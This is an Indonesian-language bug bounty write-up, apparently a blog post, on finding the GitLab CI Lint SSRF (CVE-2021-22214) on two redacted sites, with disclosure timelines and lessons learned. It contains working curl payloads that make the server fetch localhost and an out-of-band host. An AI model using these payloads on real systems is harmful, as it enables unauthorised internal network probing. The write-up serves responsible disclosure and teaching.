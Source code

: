 ```yaml
---
layout: post
title: "[Write-Up] CVE-2021-22214 Gitlab SSRF Pada Beberapa Website Lokal"
tags: [write-up, cve, gitlab, ssrf]
---
```


Dalam melanjutkan pencarian dan pembelajaran, di suatu hari, saya menemukan celah pada beberapa _website_ lokal. Berikut adalah write up serta tanggapan dari tim IT yang bersangkutan.

# Reconnaissance

Selalu, hal pertama yang dilakukan adalah _reconnaissance_ pada beberapa website lokal, saya melakukannya menggunakan tools [rEngine](https://github.com/yogeshojha/rengine). Tools yang sangat saya rekomendasikan dalam melakukan _bug bounty_. Beberapa waktu kemudian, rEngine menemukan sebuah celah dengan tingkat kerentanan tinggi, yaitu [GitLab SSRF (CVE-2021-22214)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22214). SSRF, menarik.

# Unauthenticated Gitlab CI Lint API SSRF CVE-2021-22214

Celah ini pertama kali ditemukan oleh user hackerone vin01. Dengan memanfaatkan celah pada CI Lint API milik Gitlab, _attacker_ dapat melakukan _Server-side Request Forgery (SSRF)_. 

## CI Lint API

[CI Lint](https://docs.gitlab.com/ee/api/lint.html) merupakan API Gitlab untuk mengecek atau memvalidasi konfigurasi CI/CD YAML. 

Request:
```bash
curl --header "Content-Type: application/json" --header "PRIVATE-TOKEN: <your_access_token>" "https://gitlab.example.com/api/v4/ci/lint" --data '{"content": "{ \"image\": \"ruby:2.6\", \"services\": [\"postgres\"], \"before_script\": [\"bundle install\", \"bundle exec rake db:create\"], \"variables\": {\"DB_NAME\": \"postgres\"}, \"types\": [\"test\", \"deploy\", \"notify\"], \"rspec\": { \"script\": \"rake spec\", \"tags\": [\"ruby\", \"postgres\"], \"only\": [\"branches\"]}}"}'
```
Response:
```json
{
  "status": "valid",
  "errors": [],
  "warnings": []
}
```

## Remote YAML includes

file konfigurasi CI untuk Gitlab adalah berformat YAML dan dapat menggunakan tag `include` untuk menyertakan (men-include-kan) template YAML dari remote URL

```bash
include:
  - 'https://gitlab.com/awesome-project/raw/main/.before-script-template.yml'
```

## Server-side Request Forgery (SSRF)

[Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf) merupakan celah pada server yang mengijinkan _attacker_ melakukan HTTP _request_ ke website atau domain lain semaunya. Mudahnya, seorang _attacker_ dapat membuat sebuah server mengakses website atau domain tertentu. Umumnya, server tidak dapat atau tidak boleh melakukan _request_ HTTP tanpa otorisasi. 

Celah pada gitlab adalah kita dapat melakukan POST pada endpoint `/api/v4/ci/lint` dengan menyertakan tag `include` tadi.

Request:
```bash
curl -s --show-error -H 'Content-Type: application/json' https://gitlab.example.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://127.0.0.1:9090/api/v1/targets?test.yml" }'
```

Response:
```json
{"status":"invalid","errors":["jobs status config should implement a script: or a trigger: keyword","jobs data config should implement a script: or a trigger: keyword","jobs config should contain at least one visible job"],"warnings":[],"merged_yaml":"---\nstatus: success\ndata:\n  activeTargets:\n  - discoveredLabels:\n      __address__: ...
```
Catatan: `test.yml` merupakan part penting dalam payload ini karena API hanya menerima ekstensi `.yml` untuk validasi remote YAML.

Celah ini akan menjadi berbahaya jika [_internal network request_](https://docs.gitlab.com/ee/security/webhooks.html) diaktifkan (secara default di non-aktifkan). Jika diaktifkan, maka kita dapat memanfaatkan celah ini untuk melakukan local port scanning.

# Temuan

Seperti yang sudah saya sebutkan diawal bahwa saya melakukan pemindaian terhadap beberapa website lokal, dan saya menemukan setidaknya 2 website yang memiliki domain gitlab. Kedua website tidak ingin saya menyebutkan apapun tentang mereka, maka saya akan menggunakan alias.

## Case 1: Temuan pada redacted-satu.com

Saya melakukan curl berikut

```bash
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n  remote: https://IP-OOB/api/v1/targets?test.yml"}' https://redacted-satu.com/api/v4/ci/lint -k
```
IP-OOB merupakan IP out-of-band, kali ini saya menggunakan [interactsh](https://github.com/projectdiscovery/interactsh) karena mudah dan tidak perlu berbayar seperti burpcollabolator.

Dan, hit. Terlihat sebuah DNSLog pada interactsh.

![hit-1](/assets/img/posts/gitlab-ssrf-cve-2021-22214/interactsh-hit.png)

Segera saya laporkan ke tim terkait

### Timeline

- 16 September 2021 - Laporan dikirim
- 17 September 2021 - Laporan diterima dan sedang divalidasi
- 23 September 2021 - Temuan valid, celah terkait dengan aplikasi gitlab. Mereka mengapresiasi dan akan mengirimkan merchandise (yeay). Saya menanyakan severity temuan ini berdasarkan assesment tim IT mereka.
- 24 September 2021 - Mereka mengklasifikasikan temuan ini sebagai medium karena tidak merusak atau terkait dengan produksi. Saya terima saja, toh memang saya tidak mengeksploit lebih jauh. Case closed. 

Beberapa hari kemudian saya merchandisenya sudah sampai di rumah.

## Case 2: Temuan pada redacted-dua.com

Sama seperti temuan pada redacted-satu.com, saya menemukannya dalam waktu yang berdekatan, jadi saya laporkan setelah proof-of-concept yang lengkap sampai dengan DNSLog hit.

### Timeline

- 21 September 2021 - Laporan dikirim
- 22 September 2021 - Laporan diterima, dimintakan _proof of concept_ (POC) berupa dokumen dan video. Saya kirim saat itu juga.
- 23 September 2021 - Mereka meminta saya untuk menunjukan dampak yang lebih serius, karena berdasarkan investigasi internal mereka kategorikan temuan ini sebagai External SRRF (informative - out of scope). Well said. External SSRF merupakan SSRF dengan dampak paling minimal (low). Sayapun mencoba berbagai cara untuk mengeksploitasi temuan ini, seperti melakukan request menuju `localhost (192.0.0.1)` namun semua payload yang saya gunakan gagal. 
- 27 September 2021 - Setelah beberapa hari mencoba meng eksploitasi temuan saya ini dan gagal, saya sampai pada kesimpulan dan berargumen bahwa _internal network request_ dalam keadaan non-aktif sehingga saya tidak dapat memanfaatkan temuan ini untuk melakukan request menuju localhost, namun jika suatu saat diaktifkan, maka celah ini akan meningkat severity-nya, sehingga menurut saya celah ini tetap perlu diperbaiki. 
- 03 Oktober 2021 - Setelah diskusi internal mereka, mereka tetap pada pendirian bahwa severity tidak berubah, saran perbaikan diterima. Fair enough. Saya juga tidak bisa membuktikan kerentanan yang lebih serius. Maka saya sepakat untuk menutup issue ini. Case closed.

# Lesson learned

Ini adalah kali pertama saya menemukan bug pada sebuah website. Banyak pelajaran dan hikmah selama prosesnya. 

Saya jadi belajar bahwa setelah menemukan bug, jangan tergesa-gesa melaporkan, pelajari lebih jauh, eksplorasi lagi, mungkin ada celah lain yang dapat dimanfaatkan (chain of bugs) dan dapat meningkatkan dampak celah yang kita temukan. Gunakan bahasa yang sopan, well mannered, dan profesional dalam menulis laporan. Selalu sertakan proof of concept, no POC no bounty. Utamakan profesionalitas, jangan terlalu menekan pemilik website atau tim security website terkait, biasa saja. Utamakan ilmu dibanding dengan bounty. Setelah ilmu mencukupi, bounty akan mengikuti.

## Terima kasih

Semua pengalaman saya di atas tidak akan terjadi tanpa-Nya. Segala puja dan puji hanya untuk-Nya. Tidak lupa juga untuk teman dan mentor saya selama ini, yang selama diskusi dengan tim security terkait ia selalu membantu memberikan _insight_. Terakhir terima kasih kepada tim IT redacted-satu.com dan redacted-dua.com yang tidak ingin disebutkan yang dengan sabar berdiskusi dengan saya.

